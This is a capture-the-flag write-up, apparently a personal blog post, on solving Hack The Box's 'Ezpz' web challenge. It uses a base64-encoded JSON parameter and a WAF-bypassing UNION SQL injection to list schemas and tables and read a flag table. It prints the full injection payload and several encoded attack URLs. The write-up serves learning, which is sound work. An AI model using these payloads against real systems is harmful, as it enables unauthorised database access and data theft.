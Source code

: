 ```yaml
---
date: 2019-05-12T19:17:18.000Z
layout: post
title: Ezpz Web Challenge Write Up From Hack The Box
subtitle: Its an easy web challenge, and we will butch it
description: >-
  We Are Always Here for Inject
image: >-
  https://i.imgur.com/XnJ1KF4.png
optimized_image: >-
  https://i.imgur.com/XnJ1KF4.png
category: web 
tags:
  - web
  - sqli
  - php
author: Dr.D3xt3r
paginate: true
---
```

## first Part 

i open the challenge its an error lets see what we will do .

![placeholder](https://i.imgur.com/qxWpyff.png)

lets put any value in obj : `<http://docker.hackthebox.eu:30268/?obj=1>`

![placeholder](https://i.imgur.com/HA1dt1Z.png)

nice its work .. lets determine 'id' property : `<http://docker.hackthebox.eu:30268/?obj[id]=1>`

![placeholder](https://i.imgur.com/ErPIhyx.png)

okaaai .. its take any input and decode it to base64 , so lets encode this `<{"ID": "1"}>`
`<http://docker.hackthebox.eu:30268/?obj=eyAiSUQiOiAiMSJ9>`

![placeholder](https://i.imgur.com/MkEjV2Z.png)

niiice its first part of challenge and its easy . lets see what we will do next 

## Second Part : SQLI

its being filterd by `<WAF>` so lets bypass it 

![placeholder](https://i.imgur.com/UAB6mFx.png)

I tried this payload `<{"ID": "a' UNION SELECT * FROM (SELECT 1)a JOIN (SELECT schema_name FROM information_schema.schemata)b -- a"}>` 

and encode it 

`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJyBVTklPTiBTRUxFQ1QgKiBGUk9NIChTRUxFQ1QgMSlhIEpPSU4gKFNFTEVDVCBzY2hlbWFfbmFtZSBGUk9NIGluZm9ybWF0aW9uX3NjaGVtYS5zY2hlbWF0YSliIC0tIGEifQ==>`

![placeholder](https://i.imgur.com/5EswifW.png)

niice its working its display > "information schema tables"

lets dipaly names of the tables : 

`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJyBVTklPTiBTRUxFQ1QgKiBGUk9NIChTRUxFQ1QgMSlhIEpPSU4gKFNFTEVDVCB0YWJsZV9uYW1lIEZST00gbXlzcWwuaW5ub2RiX3RhYmxlX3N0YXRzKWIgLS0gYSJ9>`

![placeholder](https://i.imgur.com/PlHywd8.png)

here we go we get the flag table 

`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJ1VOSU9OIFNFTEVDVCAqIEZST00gKFNFTEVDVCAxKWEgSk9JTiAoc2VsZWN0ICogZnJvbSBGbGFnVGFibGVVbmd1ZXNzYWJsZUV6UFopYiAtLSBhIn0>`

![placeholder](https://i.imgur.com/CUkmWhm.png)

GG bro its so easy .. hope its clear to u thanks for reading <3
